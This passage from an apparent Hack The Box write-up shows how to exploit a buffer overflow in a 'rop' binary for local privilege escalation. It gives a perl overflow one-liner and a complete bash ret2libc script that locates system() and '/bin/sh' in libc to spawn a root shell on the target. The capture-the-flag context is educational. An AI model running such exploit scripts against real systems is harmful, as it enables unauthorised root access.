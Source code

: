 
{% include image.html image_alt="8e8eec92.png" image_src="/e62b5b76-4a2f-4274-810b-595b3ca4eeb6/8e8eec92.png" %}


A couple of instructions down, I'm at `0x8048527` before the 100 `A`s get printed to `stdout`. Notice the buffer containing the 100 `A`s is at `0xffffd258`.


{% include image.html image_alt="c27d68b9.png" image_src="/e62b5b76-4a2f-4274-810b-595b3ca4eeb6/c27d68b9.png" %}


Here, just before EIP executes the next instruction (`ret`), notice the return address is at `0xffffd28c`, which is 52 bytes (`0xffffd28c - 0xffffd258`) away from the buffer of 100 `A`s. We can control the return address through buffer overflow!

The general exploit construct looks like this: `./rop $(perl -e 'print "A" x 52 . "<4-byte return address>"')`. Let's run the proof-of-concept with `strace`.


{% include image.html image_alt="bb1aa20b.png" image_src="/e62b5b76-4a2f-4274-810b-595b3ca4eeb6/bb1aa20b.png" %}


Recall that ASLR is disabled? And, because the executable is linked dynamically with `libc`, we can perform a specific ROP technique known as `ret2libc`.

Armed with this knowledge, let's write a automated exploit in `bash` to get our `root` shell.

<div class="filename"><span>ret2libc.sh</span></div>

```bash
#!/bin/bash

# Get all the addresses
TARGET="$(readlink -f $1)"
LIBC_INFO="$(ldd $TARGET | grep libc)"
LIBC_BASE="$(awk '{ print $NF }' <<<"$LIBC_INFO" | tr -cd '[x0-9a-f]')"
LIBC_FILE="$(awk '{ print $3 }' <<<"$LIBC_INFO")"
SYSTEM_OFFSET="0x$(readelf -a $LIBC_FILE | grep -m1 "system@" | awk '{ print $2 }')"
SYSTEM_ADDR="$(printf "0x%08x" $((LIBC_BASE + SYSTEM_OFFSET)))"
BIN_SH_OFFSET="$(grep -oba '/bin/sh' $LIBC_FILE | cut -d':' -f1)"
BIN_SH_ADDR="$(printf "0x%08x" $((LIBC_BASE + BIN_SH_OFFSET)))"

# Construct exploit string
RET_ADDR="$(sed -r 's/^0x(..)(..)(..)(..)$/\\x\4\\x\3\\x\2\\x\1/' <<<"$SYSTEM_ADDR")"
PAYLOAD_ADDR="$(sed -r 's/^0x(..)(..)(..)(..)$/\\x\4\\x\3\\x\2\\x\1/' <<<"$BIN_SH_ADDR")"

# Exploit
$TARGET $(perl -e "print 'A' x 52 . \"$RET_ADDR\" . \"JUNK\" . \"$PAYLOAD_ADDR\"")
```

Copy `ret2libc.sh` to the target host where we have `rwx` permissions, e.g. `/tmp`, and run the exploit script.


{% include image.html image_alt="338577f4.png" image_src="/e62b5b76-4a2f-4274-810b-595b3ca4eeb6/338577f4.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/158
[2]: https://www.hackthebox.eu/home/users/profile/27390
[3]: https://www.hackthebox.eu/